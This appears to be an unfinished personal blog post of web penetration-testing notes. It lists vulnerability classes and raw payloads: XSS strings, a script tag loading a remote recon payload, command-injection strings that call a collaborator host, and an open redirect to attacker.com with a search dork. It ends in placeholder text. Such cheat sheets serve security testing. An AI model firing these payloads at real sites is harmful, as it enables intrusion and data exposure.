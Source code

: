 ```yaml
---
title: "Web App Security"
date: "2019-12-19"
layout: posts

---
```


Cross-site scripting (XSS)
SQL injection
Cross-site request forgery
XML external entity injection
Directory traversal
Server-side request forgery


XSS
    <u>test</u>
    <b>lgmstest</b>
    <script>alert(1)</script>
    </script/x>alert(1)</script/x>
    <svg/onload=alert(\"1\")
    <a src=www.google.com>test</a>
    <h1>t</h1>
    <H1>T
    >'>"><img src=x onerror=alert(0)>
    “><img src=x onerror=prompt(document.domain)>

    <script alert(9)</script>.jpeg
    <script>alert(1)</script>
    </script/x>alert(1)</script/x>
    <svg/onload=alert(\"1\")
    xss?name=Bob<script src='https://demoapp.loc/js/script?v=1.7.3.css%2522/>%2527)%3Balert(%2522Yeah!%2520Chaining!%2522)%3B//'></script>
    ?<script src="https://raw.githubusercontent.com/nettitude/xss_payloads/master/recon.php"></script>



Injection
|%7cnslookup%20(collabip)%20%23
%7cping%20-c%2015%20127.0.0.1%20%23

redirect
https://example.com/signup?redirectUrl=https://attacker.com/
inurl:redirectUrl=http site:target.com

test dulu
![source-code](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/finn.jpg){: .align-center}

---

**Solution**


    kk
    ss


`test`



